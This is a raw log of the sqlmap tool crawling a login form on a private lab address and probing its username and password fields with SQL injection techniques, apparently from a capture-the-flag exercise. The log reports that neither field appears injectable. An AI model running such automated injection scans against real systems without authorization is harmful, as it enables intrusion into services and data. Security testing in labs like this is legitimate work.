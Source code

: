 ```jsx
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=smgujsk4d28...1811ctibt4'). Do you want to use those [Y/n] Y
[03:58:28] [INFO] searching for forms
[#1] form:
POST http://192.168.122.146:1337/978345210/index.php
POST data: username=&password=&submit=%20Login%20
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: username=&password=&submit=%20Login%20] (Warning: blank fields detected): username=&password=&submit= Login 
do you want to fill blank fields with random values? [Y/n] Y
it appears that provided value for POST parameter 'submit' has boundaries. Do you want to inject inside? (' Login* ') [y/N] N
[03:58:29] [INFO] using '/root/.sqlmap/output/results-08252020_0358am.csv' as the CSV results file in multiple targets mode
[03:58:29] [INFO] checking if the target is protected by some kind of WAF/IPS
[03:58:29] [INFO] testing if the target URL content is stable
[03:58:29] [INFO] target URL content is stable
[03:58:29] [INFO] testing if POST parameter 'username' is dynamic
[03:58:29] [WARNING] POST parameter 'username' does not appear to be dynamic
[03:58:30] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[03:58:30] [INFO] testing for SQL injection on POST parameter 'username'
[03:58:30] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[03:58:30] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[03:58:30] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[03:58:30] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[03:58:30] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[03:58:31] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[03:58:31] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[03:58:31] [INFO] testing 'Generic inline queries'
[03:58:31] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[03:58:31] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[03:58:31] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[03:58:31] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[03:58:32] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[03:58:32] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[03:58:32] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[03:58:32] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[03:58:32] [WARNING] POST parameter 'username' does not seem to be injectable
[03:58:32] [INFO] testing if POST parameter 'password' is dynamic
[03:58:32] [WARNING] POST parameter 'password' does not appear to be dynamic
[03:58:32] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable
[03:58:33] [INFO] testing for SQL injection on POST parameter 'password'
[03:58:33] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[03:58:34] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[03:58:34] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[03:58:34] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[03:58:35] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[03:58:36] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[03:58:36] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[03:58:36] [INFO] testing 'Generic inline queries'
[03:58:36] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[03:58:37] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[03:58:37] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[03:58:37] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
```